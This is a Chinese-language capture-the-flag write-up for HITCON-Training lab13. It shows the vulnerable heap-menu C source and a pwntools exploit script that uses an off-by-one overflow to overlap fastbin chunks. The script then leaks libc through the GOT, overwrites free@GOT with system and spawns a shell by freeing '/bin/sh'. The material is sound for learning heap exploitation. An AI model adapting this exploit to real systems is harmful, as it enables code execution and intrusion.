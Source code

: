 题目来自[HITCON-Training](https://github.com/scwuaptx/HITCON-Training)@Angelboy，溢出一字节修改fastbin chunk size，free获取稍微large的fastbin chunk。再次malloc实现fastbin chunk overlap，从而可以修改关键指针，hjiack got getshell！

## 题目信息

源码见这里：https://github.com/thinkycx/pwn/blob/master/HITCON-Training/lab13/heapcreator.c

程序中有一个struct heap，提供4个功能，其中edit功能存在off-by-one漏洞！

```c
struct heap {
	size_t size ;
	char *content ;
};
struct heap *heaparray[10];

void menu(){
	puts("--------------------------------");
	puts("          Heap Creator          ");
	puts("--------------------------------");
	puts(" 1. Create a Heap               ");
	puts(" 2. Edit a Heap                 ");
	puts(" 3. Show a Heap                 ");
	puts(" 4. Delete a Heap               ");
	puts(" 5. Exit                        ");
	puts("--------------------------------");
	printf("Your choice :");
}

void create_heap(){
	int i ;
	char buf[8];
	size_t size = 0;
	for(i = 0 ; i < 10 ; i++){
		if(!heaparray[i]){
			heaparray[i] = (struct heap *)malloc(sizeof(struct heap));
			if(!heaparray[i]){
				puts("Allocate Error");
				exit(1);
			}
			printf("Size of Heap : ");
			read(0,buf,8);
			size = atoi(buf);
			heaparray[i]->content = (char *)malloc(size);
			if(!heaparray[i]->content){
				puts("Allocate Error");
				exit(2);
			}
			heaparray[i]->size = size ;
			printf("Content of heap:");
			read_input(heaparray[i]->content,size);
			puts("SuccessFul");
			break ;
		}
	}
}

void edit_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Content of heap : ");
		read_input(heaparray[idx]->content,heaparray[idx]->size+1);
		puts("Done !");
	}else{
		puts("No such heap !");
	}
}
void show_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		printf("Size : %ld\nContent : %s\n",heaparray[idx]->size,heaparray[idx]->content);
		puts("Done !");
	}else{
		puts("No such heap !");
	}

}

void delete_heap(){
	int idx ;
	char buf[4];
	printf("Index :");
	read(0,buf,4);
	idx = atoi(buf);
	if(idx < 0 || idx >= 10){
		puts("Out of bound!");
		_exit(0);
	}
	if(heaparray[idx]){
		free(heaparray[idx]->content);
		free(heaparray[idx]);
		heaparray[idx] = NULL ;
		puts("Done !");	
	}else{
		puts("No such heap !");
	}

}
```



## exploit

思路：假设malloc 0x18，chunk会复用下一个chunk的PREV_SIZR，因此可以利用多写的一个字节，来overflow nextchunk 的 SIZE。这时free nextchunk就可以获取larget fastbin chunk，再次malloc导致chunk overlap，可以实现关键指针！本题中利用chunk overlap控制heap->content，使用show泄漏GOT，使用edit hijack free@GOT为system，free一个content为"/bin/sh\x00"的字符串就可以getshell。

具体的关于overlap的细节如下：

如下图所示：申请两次，获得chunk0 chunk1 chunk2 chunk3，其中chun0和chunk2是保存的heap结构体。edit chunk1可写0x19字节，因此多的一个字节可以溢出0x21，修改为0x41。

![image-20181204214015905](./img/image-20181204214015905.png)

溢出后，free chunk2 chunk3，就可以获取一个0x40和0x20大小的fastbin chunk。再次malloc实现chunk overlap，由于create函数中是循环操作，因此申请create 0x40时，正好可以把fastbin中的两个chunk申请回来，一个是data的chunk，一个是heap结构体的chunk。

![image-20181204215021950](./img/image-20181204215021950.png)

exploit：

```python
def pwn(io):
    if local&debug: gdb.attach(io,'break *0x400db1') # main atoi
    log.info("[1] create chunk,  overwrite chunk2's size and free chunk2, get 2 fastbin chunks")
    create(0x18, "") # 0 1 chunk0
    create(0x10, "") # 0 1 2 3   chunk1
    create(0x10, "") # 0 1 2 3 4 5 6 chunk2

    payload_overflow = "a"*0x10 + p64(0xdeadbeafdeadbeaf) + "\x41"
    edit(0, payload_overflow)
    delete(1) # get fastbin chunk in  0x40

    log.info("[2] get 0x40 chunk, chunk overlap! overwrite free@got to content ptr")
    payload_got = p64(0x0)*2 + p64(0) + p64(0x21) + p64(0x8)  + p64(elf.got['free'])
    create(0x38, payload_got) # chunk3
    show(1)

    io.recvuntil("Content : ")
    libc.address = u64(io.recv(6)+"\x00\x00") - libc.symbols['free']
    log.success("libc.address: %#x", libc.address)

    log.info("system addr: %#x", libc.symbols['system'])

    log.info("[3] write system addr to free@got")
    edit(1, p64(libc.symbols['system']))

    create(0x18, "/bin/sh\x00")
    delete(3)
```

![image-20181204235044113](./img/image-20181204235044113.png)

